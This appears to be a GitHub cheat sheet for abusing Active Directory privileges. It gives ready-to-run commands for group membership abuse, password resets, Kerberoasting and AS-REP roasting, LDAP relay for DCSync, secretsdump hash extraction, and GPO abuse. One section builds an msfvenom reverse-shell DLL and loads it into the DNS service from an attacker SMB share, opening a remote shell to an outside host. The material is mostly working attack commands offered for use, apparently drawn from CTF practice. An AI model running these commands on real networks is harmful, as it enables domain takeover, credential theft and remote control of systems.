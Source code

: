 # Abusing-rights-in-a-Domain

Different domain users, have different rights. Some domain users have GenericAll, GenericWrite, WriteDacl, WriteOwner privilege on other domain users or groups. We can abuse these privileges and move further in domain.


### 1. Abusing GenericAll Privilege

eg: (john have GenericAll priv on Exchange Windows Permissions group)

We can add user in Exchange Windows Permissions group and then we have full control.

```markdown
net group "Exchange Windows Permissions" john /add /domain
```

GenericAll Privilege on adams user. 3-Ways.

1. We can change the adam password.
```markdown
net user adams N3wPassw0rd! /domain
```
Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
2. We can set adams user SPN and do [Kerberoasting](https://k4sth4.github.io/Kerberos/).
```markdown
Set-DomainObject -Identity adams -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:jadams /nowrap
```

3. We can set adams account to [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).
```markdown
Set-DomainObject -Identity adams -XOR @{UserAccountControl=4194304}
.\Rubeus.exe asreproast /user:jadams /nowrap
```

### 2. Abusing GenericWrite Perm on a User
Here lily is the user on which we have generic write perm we can set this user to PreAuth and then by using [AS-REP Roasting](https://k4sth4.github.io/Kerberos/) we can get the user hash and crack it and login into system.
```markdown
Set-ADAccountControl -Identity manager -DoesNotRequirePreAuth $true
```
Now we can do [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).


### 3. Abusing WriteDacl Priv on any Group
eg: claire has WriteDacl rights on the Backup_Admins group. We can add it to Backup_Admins group.
```markdown
net group backup_admins
net group backup_admins claire /add
```
NOTE: Open another shell if changes are not reflected.

### 4. Abusing WriteDacl Priv On Domain by grant yourself the DcSync privileges
dan (user) has WriteDacl Perm on DC.

using [Impacket](https://github.com/SecureAuthCorp/impacket) tool:
```markdown
ntlmrelayx.py -t ldap://10.129.95.210 --escalate-user dan
```
(10.129.95.210 = target IP)

nevigate to http://127.0.0.1  and enter the user (dan & pass) now wait till it ask for you to run secretsdump.py on creds

### 5. Abusing WriteOwner Privilege
We're tom user and getting ownership of claire and then change passwd of claire. Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
```markdown
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

### 6. Abusing DNS Admin wrights
This way is just for CTFs, in real world this will gonna break the DNS service.

Step1. create a revshell via msfvenom
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f dll > shell.dll
```
Step2. set smbserver in the same dir where shell.dll
```markdown
impacket-smbserver -smb2support share .
```
Step3. exploitation on target machine (we don't need to upload shell.dll)
```markdown
dnscmd.exe /config /serverlevelplugindll \\10.10.x.x\share\shell.dll
sc.exe stop dns
sc.exe start dns
```
You will get a reverse shell.

### 7. Abusing ForceChange Password from linux os
login as support user and audit2020 is the user whose passwd gonna change.
```markdown
rpcclient -U support 10.129.1.243 
setuserinfo2 audit2020 23 'Passw0rd!' 
```


### 8. DcSync Attack
mrlky has Get-Changes privilege on the domain.
```markdown
secretsdump.py -just-dc mrlky:Football@10.10.10.103
```

### 9. Abuse GPO Policy 
upload [SharpGPOAbuse.exe](https://github.com/FSecureLABS/SharpGPOAbuse)
```markdown
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount hackzzdogs --GPOName "DCPolicy"
gpupdate /force
```
(hackzzdogs = current user name)

(DCPolicy = Group Policy Name you can find it on bloodhound)

Now we're in local administrator group.
```markdown
net loacalgroup administrators
```


